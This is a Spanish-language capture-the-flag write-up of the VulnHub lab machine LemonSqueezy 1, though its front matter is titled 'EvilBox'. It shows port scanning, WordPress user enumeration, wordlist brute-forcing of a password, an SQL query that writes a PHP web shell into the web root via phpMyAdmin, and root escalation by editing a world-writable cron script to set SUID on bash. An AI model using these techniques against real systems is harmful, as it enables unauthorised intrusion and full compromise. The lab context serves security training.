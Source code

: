 ```yaml
---
title: EvilBox
published: true
---
```


---

[Lemonsqueezy1](@https://www.vulnhub.com/entry/lemonsqueezy-1,473/)

La descripcion comenta que agreguemos ‘lemonsqueezy’ al hosts.

## Intrusion

Empiezo haciendo un escaneo con Nmap para ver puertos de la maquina.

```bash
>Nmap scan report for lemonsqueezy (192.168.1.32)
Host is up (0.0014s latency).
PORT   STATE SERVICE
80/tcp open  http
```

![](https://eidd3.github.io//assets/img/LemonSqueezy1/img.png)

Con Nikto busco posibles vulnerabilidades o recursos en la pagina.

```bash
nikto -host 192.168.1.32
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          192.168.1.32
+ Target Hostname:    lemonsqueezy
+ Target Port:        80
+ Start Time:         2023-02-08 18:59:50 (GMT-3)
---------------------------------------------------------------------------
+ Server: Apache/2.4.25 (Debian)
+ The anti-clickjacking X-Frame-Options header is not present.
+ Allowed HTTP Methods: HEAD, GET, POST, OPTIONS 
+ OSVDB-3092: /manual/: Web server manual found.
+ /wordpress/: A Wordpress installation was found.
+ /phpmyadmin/: phpMyAdmin directory found
---------------------------------------------------------------------------
+ End Time:           2023-02-08 19:00:08 (GMT-3) (18 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Reporta 2 directorios interesantes.

![](https://eidd3.github.io//assets/img/LemonSqueezy1/img1.png)

![](https://eidd3.github.io//assets/img/LemonSqueezy1/img2.png)


Con wpscan busco posibles usuarios para tratar de ingresar en el panel de phpmyadmin o en el wordpress.

```bash
wpscan --url http://192.168.1.32/wordpress/ -e u
[sudo] password for eddie: 
_______________________________________________________________

[+] URL: http://192.168.1.32/wordpress/ [192.168.1.32]

Interesting Finding(s):

[i] The main theme could not be detected.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <====================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] lemon
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] orange
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)


Me reporta 2 usuarios, pero todavia no tengo ninguna contraseña para probar, por lo que lanzo otro escaneo para hacer fuerza bruta y tratar de conseguir contraseñas.

wpscan --url http://192.168.1.32/wordpress/ -U orange -P /usr/share/wordlists/rockyou.txt
_______________________________________________________________

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - orange / ginger                                                                                                                                      
Trying orange / sweetie Time: 00:00:02 <==========================================================================> (165 / 14344557)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: orange, Password: ginger

```

| User         | Password          |
|:-------------|:------------------|
| orange       | ginger		   |


Con estas credenciales puedo iniciar sesion en el panel de log in de wordpress.

![](https://eidd3.github.io//assets/img/LemonSqueezy1/img3.png)

Al ingresar ya se ve algo raro, un nota que dice “mantener esto seguro” y lo que parace ser una contraseña.

![](https://eidd3.github.io//assets/img/LemonSqueezy1/img4.png)

Con esta nueva contraseña se puede tratar de ingresar al panel de phpmyadmin como el usuario orange o lemon.

![](https://eidd3.github.io//assets/img/LemonSqueezy1/img5.png)

Este usuario y contraseña son validos, por lo que me deja ingresar a phpmyadmin.

Una vez dentro de PhpMyAdmin la idea es subir una shell al servidor web; ya que puedo ver la base de datos ‘wordpress’ voy a tratar de crear una consulta SQL maliciosa que en una ruta dada de la pagina pueda ejecutar comandos.

![](https://eidd3.github.io//assets/img/LemonSqueezy1/img6.png)

Primero creamos la consulta, vamos a la pestaña SQL que es donde vamos a ingresar el codigo de la consulta y agregamos esa linea para poder ejecutar comandos en la ruta http://192.168.1.32/wordpress/shell.php con el parametro cmd. 

```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/wordpress/shell.php"
```

![](https://eidd3.github.io//assets/img/LemonSqueezy1/img7.png)

Ahora que puedo ejecutar comandos queda entablar una reverse shell.

![](https://eidd3.github.io//assets/img/LemonSqueezy1/img8.png)


## Escalando Privilegios

Si vemos las tareas cron que se ejecutan en el sistema vemos que root ejecuta cada 2 minutos logrotate.

```bash
bash-4.4$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/2 *   * * *   root    /etc/logrotate.d/logrotate
```

```bash
bash-4.4$ cat /etc/logrotate.d/logrotate 
#!/usr/bin/env python
import os
import sys
try:
   os.system('rm -r /tmp/* ')
except:
    sys.exit()
```

```bash
bash-4.4$ ls -la /etc/logrotate.d/logrotate 
-rwxrwxrwx 1 root root 134 Feb  9 06:56 /etc/logrotate.d/logrotate
```

El archivo tiene permisos 777 por lo que otro pueden editar el archivo, asi que con la libreria os importada puedo hacer que root le de permisos SUID a la bash y esperar que ejecute la tarea para convertirme en root.

```bash
bash-4.4$ cat /etc/logrotate.d/logrotate 
#!/usr/bin/env python
import os
import sys
os.system('chmod u+s /bin/bash')
try:
   os.system('rm -r /tmp/* ')
except:
    sys.exit()
```

```bash
bash-4.4$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1099016 May 16  2017 /bin/bash
bash-4.4$ bash -p
bash-4.4# whoami
root
bash-4.4# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
```

